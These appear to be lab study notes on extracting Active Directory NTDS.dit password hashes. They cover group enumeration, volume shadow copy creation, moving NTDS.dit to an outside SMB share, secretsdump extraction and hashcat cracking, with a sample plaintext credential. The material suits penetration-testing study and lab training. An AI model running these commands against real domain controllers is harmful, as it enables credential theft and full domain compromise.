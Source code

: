 
check groups user is member of:
```shell-session
> net localgroup

Aliases for \\DC01

-------------------------------------------------------------------------------
*Access Control Assistance Operators
*Account Operators
*Administrators
*Allowed RODC Password Replication Group
*Backup Operators
*Cert Publishers
*Certificate Service DCOM Access
*Cryptographic Operators
*Denied RODC Password Replication Group
*Distributed COM Users
```


check user account privilege within the domain:
```shell-session
*Evil-WinRM* PS C:\> net user bwilliamson

Local Group Memberships
Global Group memberships     *Domain Users         *Domain Admins
```

This account has both Administrators and Domain Administrator rights which means we can do just about anything we want, including making a copy of the NTDS.dit file.
# Faster way of extracting NTDS.dit Hashes
```shell-session
$ netexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! -M ntdsutil
```
crack Nt HASH
```shell-session
$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```


# Manually extracting NTDS.dit hashes
#### Creating shadow copy of C:
We can use `vssadmin` to create a [Volume Shadow Copy](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) (`VSS`) of the `C:` drive or where DS is installed 
```POWERSHELL
PS C:\> vssadmin CREATE SHADOW /For=C:
Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```

copy NTDS.dit from the shadow copy volume:
```shell-session
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

move ntds.dit to smb share
```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 

        1 file(s) moved.		
```

also copy register hives such as
```
SAM SECURITY SYSTEM
```
because you need system hive to decrypt the database


Extract hashes with secretsdump
```shell-session
$ impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL
```
crack NT hash
```shell-session
$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```
